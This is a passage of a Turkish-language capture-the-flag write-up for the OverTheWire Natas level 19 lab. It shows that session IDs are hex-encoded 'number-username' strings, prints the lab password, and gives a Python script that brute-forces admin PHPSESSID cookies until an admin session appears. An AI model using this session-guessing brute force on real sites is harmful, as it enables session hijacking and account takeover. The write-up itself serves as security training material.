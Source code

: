 <img src="/assets/img/natas/natas195.png">
</figure>
<figure>
<img src="/assets/img/natas/natas196.png">
</figure>

Tüm sessionlarda ortak olan 2d ifadesi. Bununla birlikte  0-9 arasında rakamlar , a-f ile arasında karakterler kullanılmış. Session id hex formatında olabilir. Dönüştürmeyi denediğimizde ;


   user:pass |            hex          | ascii
-------------|-------------------------|---------------
burcu:123456 |33382d6275726375         |38-burcu
-------------|-------------------------|----------------
admin:admin  |3233342d61646d696e       |234-admin
-------------|-------------------------|----------------
a:           |3239312d61               |291-a


"-" karakterinden öncesi muhtemelen bir önceki soruda verildiği gibi 1,640 arasında random olarak üretiliyor.

{% highlight python %}

import requests
from requests.auth import HTTPBasicAuth
auth=HTTPBasicAuth('natas19','4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs')
for id in range(650):
               sessid=''+str(id)+'-admin'
               sessid=sessid.encode("hex")
               cookie={'PHPSESSID':''+sessid+''}
               print cookie
               s=requests.get('http://natas19.natas.labs.overthewire.org',auth=auth,cookies=cookie)
               if "You are an admin"  in s.text:
                        print s.text
                        break